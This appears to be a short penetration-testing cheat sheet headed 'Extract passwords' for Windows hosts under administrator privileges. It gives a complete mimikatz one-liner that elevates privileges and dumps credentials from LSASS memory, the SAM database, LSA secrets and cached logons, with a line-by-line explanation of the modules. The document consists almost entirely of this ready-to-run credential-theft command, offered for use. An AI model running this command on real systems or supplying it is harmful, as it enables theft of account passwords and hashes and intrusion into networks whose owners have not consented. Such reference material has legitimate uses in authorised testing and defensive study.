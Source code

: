 ## With Admin privileges  
### Extract passwords   
  
`mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"`  
  
**Explanation :**  
`privilege::debug` & `token::elevate` Elevate Privileges to extract the credentials  
`sekurlsa::logonpasswords` Extracts creds from lsass (memory)  
`lsadump::lsa /inject` Extracts from lsass (service)  
`lsadump::sam` Extracts creds from SAM  
